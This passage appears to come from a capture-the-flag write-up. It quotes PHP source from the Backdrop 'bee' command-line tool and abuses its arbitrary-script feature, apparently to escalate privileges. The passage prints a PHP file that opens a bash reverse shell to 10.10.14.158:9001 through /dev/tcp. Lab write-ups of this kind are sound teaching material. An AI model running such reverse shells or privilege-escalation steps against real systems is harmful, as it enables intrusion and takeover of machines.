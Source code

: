 ```bash
function bee_is_cli() {
  return (empty($_SERVER['SERVER_SOFTWARE']) && (php_sapi_name() == 'cli' || (is_numeric($_SERVER['argc']) && $_SERVER['argc'] > 0)));
}

/**
 * Return the HTML to display if this page is loaded in the browser.
 *
 * @return string
 *   The concatentated html to display.
 */
function bee_browser_load_html() {
  // Set the title to use in h1 and title elements.
  $title = "Bee Gone!";
  // Place a white block over "#!/usr/bin/env php" as this is output before
  // anything else.
  $browser_output = "<div style='background-color:white;position:absolute;width:15rem;height:3rem;top:0;left:0;z-index:9;'>&nbsp;</div>";
  // Add the bee logo and style appropriately.
  $browser_output .= "<img src='./images/bee.png' align='right' width='150' height='157' style='max-width:100%;margin-top:3rem;'>";
  // Add meaningful text.
  $browser_output .= "<h1 style='font-family:Tahoma;'>$title</h1>";
  $browser_output .= "<p style='font-family:Verdana;'>Bee is a command line tool only and will not work in the browser.</p>";
  // Add the document title using javascript when the window loads.
  $browser_output .= "<script>window.onload = function(){document.title='$title';}</script>";
  // Output the combined string.
  return $browser_output;
}
```

Looking at the `help` for `bee` we can see that we can execute an arbitrary php-script:

```bash
  php-script
   scr
   Execute an arbitrary PHP file after bootstrapping Backdrop.
```

So let's reuse our `poc.php` here:

```bash
cat poc.php

<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.158/9001 0>&1'")?>
```

Secondly let's ensure that we are in the correct directory:

```bash
cd /var/www/html
```

> We do this because the binary looks to include several files in that directory and must pass the evaluation before running our script
{:.info}
